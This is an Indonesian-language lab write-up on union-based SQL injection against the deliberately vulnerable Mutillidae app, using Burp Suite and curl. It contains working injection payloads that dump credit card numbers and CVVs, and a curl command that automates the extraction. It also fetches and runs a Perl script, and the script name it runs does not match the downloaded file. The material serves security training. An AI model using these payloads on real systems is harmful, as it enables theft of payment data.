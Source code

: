 # Lesson 8 : SQL Injection Union Exploit #1

## Start Web Browser Session to Mutillidae
- Buka browser kemudian akses Mutillidae sesuai ip metasploit pada alamat http://10.0.1.100/mutillidae
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/1/start_browser.png "Home page")

## Go To User Info Page
1. Go to User Info
   - OWASP Top 10 --> A1 - SQL Injection --> SQLi - Extract Data --> User Info 

## Configure Firefox Proxy Settings
1. View Preferences
   - Edit --> Preferences
2. Advanced Settings
   - Pilih Menu Advanced
   - Pilih Network Tabs
   - Pilih Settings
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/1/network_tab.png "Home page")
3. Connection Settings
   - Gunakan manual proxy
   - Pada kolom HTTP Proxy isikan **127.0.0.1**
   - Pada kolom Port **8080**
   - Centang bagian Use the proxy server for all protocols 
   - Klik Ok, Kemudian Close
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/1/set_config_proxy.png "Home page")

## Configure Burpsuite Settings
1. Buka Aplikasi Burpsuite
   - Akan muncul halaman aplikasi, pilih next
   - Use Burp defaults, kemudian klik start Burp
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/2/use_default.png "Home page")
2. Configure proxy
   - Pilih tab proxy, kemudian options
   - Set port ke 8080 seperti berikut
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/2/proxy_port_8080.png "Home page")
3. Turn on intercept
   - Pilih tab intercept
   - Pastikan intercept button dalam keadaan off "intercept is off"
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/2/intercept_off.png "Home page")

## SQL Injection (Union Example #1)
1. Inspect the Name Textbox with Firebug
   - Klik kanan pada Textbox Name, kemudian inspect element
2. Change Text Box Size
   - Pada bagian size, tambahkan kapasistasnya dari yg semula 20 menjadi 100
3. First Union SQL Injection Attempt
   - Pada kolom Textbox **Name** isikan **`' union select null -- `**
   - Pastikan anda menambahkan spasi setelah karakter **`--`**
   - Klik tombol View Account Details
4. SQL Error
	- Scroll kebawah untuk melihat pesan errornya
	- Perhatikan pesan errornya
	- Errornya terjadi karena perbedaan jumlah coloumn pada database

## SQL Injection (Union Example #2)
1. Inspect the Name Textbox with Firebug
   - Klik kanan pada Textbox Name, kemudian inspect element
2. Change Text Box Size
   - Pada bagian size, tambahkan kapasistasnya dari yg semula 20 menjadi 100
3. Second Union SQL Injection Attempt
   - Pada kolom Textbox **Name** isikan **`' union select null,null,null,null,null -- `**
   - Pastikan anda menambahkan spasi setelah karakter **`--`**
   - Klik tombol View Account Details
4. Viewing the Results
	- Scroll kebawah untuk melihat pesan errornya
	- Perhatikan pesan errornya

## SQL Injection (Union Example #3)
1. Inspect the Name Textbox with Firebug
   - Klik kanan pada Textbox Name, kemudian inspect element
2. Change Text Box Size
   - Pada bagian size, tambahkan kapasistasnya dari yg semula 20 menjadi 100
3. Second Union SQL Injection Attempt
   - Pada kolom Textbox **Name** isikan **`' union select 1,2,3,4,5 -- `**
   - Pastikan anda menambahkan spasi setelah karakter **`--`**
   - Klik tombol View Account Details
4. Viewing the Results
	- Scroll kebawah untuk melihat hasilnya
	- Perhatikan hasilnya
		- Pada hasilnya, terdapat 1 record ditemukan dengan value seperti berikut:
			- Username=2
			- Password=3
			- Signature=4

## SQL Injection (Union Example #4)
1. Inspect the Name Textbox with Firebug
   - Klik kanan pada Textbox Name, kemudian inspect element
2. Change Text Box Size
   - Pada bagian size, tambahkan kapasistasnya dari yg semula 20 menjadi 100
3. Second Union SQL Injection Attempt
   - Pada kolom Textbox **Name** isikan **`' union select ccid,ccnumber,ccv,expiration,null from credit_cards -- `**
   - Pastikan anda menambahkan spasi setelah karakter **`--`**
   - Klik tombol View Account Details
4. Viewing the Results
	- Scroll kebawah untuk melihat hasilnya
	- Perhatikan hasilnya
	- Pada hasilnya, terdapat 5 record ditemukan

## SQL Injection (Union Example with Curl #5)
1. View Post Data (With Burp Suite)
   - Klik pada Tab Proxy
   - Klik pada Tab History
   - Klik cari line yang urlnya mengandung **/mutillidae/index.php?page=user-info.php** dengan Method GET
   - Klik pada Tab Request
   - Klik pada Tab Raw
   - Highligt text, kemudian klik kanan
   - Klik "Copy to File"
2. Save File
   - Save file di dalam folder **root**
   - File Name: **crack_cookies.txt**
   - Klik tombol Save
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/4/save_burp.png "Home page")
3. Use Curl to Display Usernames and Passwords
   - Buka terminal, jalankan perintah berikut : 
 ```
   curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+union+select+ccid%2Cccnumber%2Cccv%2Cexpiration%2Cnull+from+credit_cards+--+&password=&user-info-php-submit-button=View+Account+Details" --location "http://10.0.1.100/mutillidae/index.php" | grep -i "Username=" | awk 'BEGIN{FS="<"}{for (i=1; i<=NF; i++) print $i}' | awk -F\> '{print $2}'
 ```

## Perl Parser
   - Buka terminal, jalankan perintah berikut :
 ```
   cd /root
   curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+union+select+ccid%2Cccnumber%2Cccv%2Cexpiration%2Cnull+from+credit_cards+--+&password=&user-info-php-submit-button=View+Account+Details" --location "http://10.0.1.100/mutillidae/index.php" | grep -i "Username="  > lesson8.txt
   cat lesson8.txt
 ```

## Download Parser
   - Buka terminal, jalankan perintah berikut :
   ```
   cd /root
   wget http://www.computersecuritystudent.com/SECURITY_TOOLS/MUTILLIDAE/MUTILLIDAE_2511/lesson8/lesson8.pl.TXT
   mv lesson8.pl.TXT lesson8.pl
   chmod 700 lesson8.pl
   ```

## Run Perl Script
   - Buka terminal, jalankan perintah berikut :
   ```
   ./lesson7.pl
   ```
